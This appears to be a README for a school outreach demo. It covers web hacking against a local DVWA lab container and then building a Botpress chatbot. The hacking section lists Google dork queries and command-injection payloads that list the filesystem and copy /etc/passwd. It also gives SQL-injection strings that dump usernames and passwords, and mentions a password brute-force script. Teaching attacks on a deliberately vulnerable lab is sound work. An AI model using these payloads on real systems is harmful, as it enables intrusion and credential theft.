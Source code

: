 # EAT-Demo
NSCC Demo for École acadienne de Truro

# École acadienne de Truro Live Demo | Bienvenue

If needed run the [Setup](setup.md)

## Part 1 | Web Hacking
### Security Intro (Obligitory Boring Stuff)  (10 Min)
* Ethical Hacking
  * Always get permission
  * Hacking is just applied Skills/Knowledge (Creatively!)
* Staying Safe
  * Stong Passwords \
    https://haveibeenpwned.com/
  * Multi-Factor
  * Always update

### Step 1 | Recon (15 Min)
* [Google Dorking](https://github.com/chr3st5an/Google-Dorking) Demo
    1. `allintext: "DVWA" "username" "password"`
    2. `allintext:"DVWA" filetype:pdf`
    3. 
* Identify a Target
  * We'll just create our own!
    * `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
    * Just Browsing http://localhost
    * Click **Login** and then click **Create/Reset Database**. 


### Step 2 | Attack (20Min)
* Browser based attacks
    1. Command Injection \
    `127.0.0.1; ls -la /` \
    `127.0.0.1 ; cat /etc/passwd | tee /tmp/passwd`
    2. SQL Injection \
    `1' OR '1'='1'#` \
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
* Advanced Attacks (Automation Demo) \
  * Password Brute Force
    * Let's use brute.py
    * We'll specify our target. (Line 53)
    * We need to know usernames (line 48)
    * We need a dictionary of common passwords. (line 113) \
    `./brute.py`



## Part 2 | Generative AI - DYI ChatBot

### What is AI? (More Obligitory Boring Stuff) (5 Min)
 * How does AI learn?
 * How can we control it?
   * Data Sets
   * decision Trees
   * HardCoded!

### Botpress Demo (30 Min)
* Creating a simple Flow
* Set up a variable
* Load some data
* Add some Guardrails!
* Build your own! We Need:
  1. Some data.
  2. A custom greeting!
  3. A Question?

### Try Our Bot!
[EAT Demo Bot](https://mediafiles.botpress.cloud/b9264ebf-53a7-4eea-a507-06b0dabf1ad1/webchat/bot.html)


